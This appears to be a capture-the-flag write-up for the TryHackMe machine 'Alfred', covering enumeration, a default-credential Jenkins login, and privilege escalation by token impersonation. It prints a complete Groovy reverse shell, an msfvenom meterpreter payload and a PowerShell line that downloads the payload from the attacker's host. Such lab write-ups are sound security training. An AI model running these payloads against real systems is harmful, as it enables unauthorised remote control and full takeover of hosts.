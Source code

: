 ```yaml
---
title: Alfred
date: 2024-02-24 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Alfred is a vulnerable machine from [TryHackMe](https://tryhackme.com) that requires some standard enumeration with running one exploit. The foothold is accomplished after some enumeration of the web page after gaining access to the Jenkins portal, and the privilege escalation is done with exploiting impersonate privilege token. 

## Nmap Scan
sudo nmap -Pn -sS `<target ip>` -vvv
* 80/tcp   open  http   syn-ack ttl 125 
* 3389/tcp open  ms-wbt-server syn-ack ttl 125
* 8080/tcp open  http-proxy    syn-ack ttl 125

## Basic Enumeration
Checking the website, we see this has a backend for Jetty: `Jetty(9.4.z-SNAPSHOT)`

Nikto scan:
> Server: Microsoft-IIS/7.5

* Jenkins Login Server, on port 8080. 
    * We try good old admin:admin login.
    * It works, default/bad credentials gets us in.

Web page, we see an email, doesn't end up being useful, but still something to note.

* `alfred@wayneenterprises.com`

Wfuzz for web page directories.

> Port 80:
>> Nothing, dead end.

> Port 8080:
>> login, assets, logout, error, git, subversion, oops, cli

## Foothold
Looking through the Jekins console, we see a lot of different potential avenues to check for a foothold.

* We are able to find a script console, that allows you to pass groovy script to execute. 
* We can use a groovy reverse shell to gain a foothold.

```java
String host="10.13.50.64";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
We are able to get a shell back, and are user `alfred\bruce`.

* We have the `user.txt` flag.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/alfred/Alfred_User.png?raw=true)

## Local Enumeration
We have an unusual shell on the host, so switching to a more stable shell is usually a good choice. Meterpreter is pretty stable, so we drop a meterpreter reverse shell to make it easier to keep a connection. 

* `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.13.50.64 LPORT=5555 -f exe -o rev.exe`
* Download payload onto the machine: `powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.50.64:8000/rev.exe','rev.exe')"`
* We also used msfconsole, running `exploit/multi/handler`, set your conditions.
* We have a new shell. 

Getting what privileges we have available (`get privs`) gives us a big list of options:
```
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```
All of these are enabled. The token we care about that is easy to abuse is the `SeImpersonatePrivilege` token.

## Impersonate Token
* Now we load incognito in our meterpreter shell, and we list out available tokens (`list_tokens -u/-g`).
* None of the user tokens are available for this impersonation abuse. 
* Listing out the group tokens shows a large number of tokens for use. 

```
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv
```

## Privilege Escalation
The group `BUILTIN\Administrators` is the group we are definitely interested in impersonating. We use `impersonate_token` in our shell to escalate privileges. 

* When we use getuid, we see that we are now `NT AUTHORITY\SYSTEM`. However, we are not done escalating yet. We do not have permissions to do things like making an interactive shell locally (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).
* Since we cannot run `shell` to be able to get our root.txt, we need to migrate to another process that will allow us to have the right permissions. A process like `services.exe` is recommended to migrate to, list out proceses with `ps`.
    * `migrate <pid>`

After doing the migration, we can make a shell, and when we run `whoami`, we see that we are `NT AUTHORITY\SYSTEM`, and can read `root.txt`.

* It is in a different location, `C:\Windows\System32\config`.

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/alfred/Alfred_Root.png?raw=true)